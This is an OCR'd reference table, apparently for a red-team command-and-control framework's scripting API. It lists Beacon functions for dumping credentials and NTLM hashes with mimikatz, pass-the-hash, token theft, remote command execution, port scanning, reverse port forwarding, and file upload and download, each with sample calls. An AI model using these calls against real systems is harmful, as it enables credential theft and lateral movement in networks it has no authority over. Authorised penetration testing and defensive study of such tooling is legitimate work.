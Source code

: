 |`&blogonpasswords($bid, $pid?, $arch?)`|Dump in-memory credentials and NTLM hashes.Uses mimikatz|
|`&bhashdump($bid, $pid?, $arch?)`|Dump local account password hashes.|
|`bpsexec_command($bid, $target, $servicename, $commandtorun)`| Run a command on remote host.|
|`&bpassthehash($bid, $domain, $user, $hash,$pid?,$arch?)`| Pass the hash|
|`brunas($bid, $domain, $user, $password, $command)`|Run command as another user using their credentials.|
|`bspawnu($bid,$2,$3)`|Spawn a session under another process.|
|`&brev2self($bid)`|Drop current token.|
|`&bmake_token($bid, $domain, $username, $password)` / `&bloginuser`|Create a token for another user|
|`&bsteal_token($bid, $pid)`| Steal a token from process|
| `brun`                   | Executes a command *without* using `cmd.exe`.  Provides *no output* unless you specifically capture and send it. Use this for cleaner execution when you don't need the output in the Beacon console. | `brun($bid, "notepad.exe");`                                               | N/A          |
| `&bshell($bid, $cmd);`   | Executes a command via `cmd.exe`. Use `&binput` first.                                                                                                                                | `bshell($bid, "dir c:\\");`                                               | N/A          |

### File System Operations

| Function                         | Arguments                      | Description                                                                                          | Example                                                                    |
| :------------------------------- | :----------------------------- | :--------------------------------------------------------------------------------------------------- | :------------------------------------------------------------------------- |
| `&bls($bid, $path);`          | `$bid, $path`                  | Lists files and directories.                                                                        | `bls($bid, "c:\\users");`                                                |
| `&bdownload($bid, $remotepath);`| `$bid, $remotepath`            | Downloads a file from the Beacon.                                                                    | `bdownload($bid, "c:\\temp\\loot.txt");`                                 |
| `&bupload($bid, $localpath);` | `$bid, $localpath`             | Uploads a file to the Beacon.                                                                        | `bupload($bid, script_resource("evil.exe"));`                              |
| `&bupload_raw($bid, $remotepath, $data, $localpath?);`| `$bid, $remotepath, $data, $localpath`|Upload raw data| `bupload_raw($bid,"C:\\Windows\\Temp\\raw.exe",$data);` |
| `&bmkdir($bid, $path);`       | `$bid, $path`                  | Creates a directory.                                                                                 | `bmkdir($bid, "c:\\temp\\newdir");`                                       |
| `&brm($bid, $path);`          | `$bid, $path`                  | Removes a file or directory.                                                                        | `brm($bid, "c:\\temp\\evil.txt");`                                          |
| `&bcp($bid, $src, $dest);` | `$bid, $src, $dest`           | Copies a file.                                                                                        | `bcp($bid, "c:\\temp\\a.txt", "c:\\temp\\b.txt");`                        |
| `&bmv($bid, $src, $dest);` | `$bid, $src, $dest`           | Moves a file or directory.                                                                               | `bmv($bid, "c:\\temp\\a.txt", "c:\\users\\admin\\a.txt");`               |
| `&bcd($bid, $path)` | `$bid, $path`| Change directory | `bcd($bid, "C:\\Windows")`

### Networking

| Function                              | Arguments                                           | Description                                                                                                             | Example                                                                                |
| :------------------------------------ | :-------------------------------------------------- | :---------------------------------------------------------------------------------------------------------------------- | :------------------------------------------------------------------------------------- |
| `&bportscan(...)`                      | `$bid, $targets, $ports, $method, $maxcon, $pid?, $arch?` | Performs a port scan.  See detailed argument descriptions in the previous table.                                       | `bportscan($bid, "192.168.1.0/24", "80,443", "arp", 100);`                            |
| `&bconnect($bid, $target, $port?);`      | `$bid, $target, $port`                                 | Connects to a waiting TCP Beacon.                                                                                          | `bconnect($bid, "192.168.1.102", 4444);`                                              |
| `&blink($bid, $target, $pipe?);`        | `$bid, $target, $pipe`                                | Links to an SMB Beacon.                                                                                                | `blink($bid, "192.168.1.102");`                                                    |
| `&bunlink($bid, $target, $sessionPID?)`   |`$bid, $target, $sessionPID?`| Unlink from a Beacon link.|`bunlink($bid,"192.168.1.102");`|
| `&brportfwd(...)`                     | `$bid, $bindport, $fwdhost, $fwdport`                   | Sets up a reverse port forward through the Beacon.                                                                      | `brportfwd($bid, 8080, "192.168.1.1", 80);`                                            |